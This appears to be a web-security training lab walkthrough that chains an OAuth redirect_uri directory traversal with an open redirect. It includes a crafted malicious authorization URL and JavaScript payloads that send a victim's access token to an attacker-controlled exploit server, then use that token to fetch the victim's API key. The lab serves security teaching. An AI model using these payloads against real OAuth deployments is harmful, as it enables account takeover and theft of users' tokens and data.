 **Lab solution**

1.  While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2.  Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at `/me` and then uses the data it fetches to log the user in. Send the `GET /me` request to Burp Repeater.
3.  Log out of your account and log back in again. From the proxy history, find the most recent `GET /auth?client_id=[...]` request and send it to Repeater.
4.  In Repeater, experiment with the `GET /auth?client_id=[...]` request. Observe that you cannot supply an external domain as `redirect_uri` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the `/../` [directory traversal](https://portswigger.net/web-security/file-path-traversal) sequence.
5.  Log out of your account on the blog website and turn on proxy interception in Burp.
6.  In the browser, log in again and go to the intercepted `GET /auth?client_id=[...]` request in Burp Proxy.
7.  Confirm that the `redirect_uri` parameter is in fact vulnerable to directory traversal by changing it to:
    
    `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1`
    
    Forward any remaining requests and observe that you are eventually redirected to the first blog post. In the browser, notice that your access token is included in the URL as a fragment.
    
8.  With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding `GET /post/next?path=[...]` request to Repeater.
9.  In Repeater, experiment with the `path` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10.  Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which subsequently forwards the victim to your exploit server:
    
    `https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`
11.  Test that this URL works correctly by visiting it in the browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
12.  On the exploit server, create a suitable script at `/exploit` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
    
    `<script> window.location = '/?'+document.location.hash.substr(1) </script>`
13.  To test that everything is working correctly, store this exploit and visit your malicious URL again in the browser. Then, go to the exploit server access log. There should be a request for `GET /?access_token=[...]`.
14.  You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:
    
    `<script> if (!document.location.hash) { window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' } else { window.location = '/?'+document.location.hash.substr(1) } </script>`
15.  To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for `GET /?access_token=[...]`.
16.  Deliver the exploit to the victim, then copy their access token from the log.
17.  In Repeater, go to the `GET /me` request and replace the token in the `Authorization: Bearer` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
18.  Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.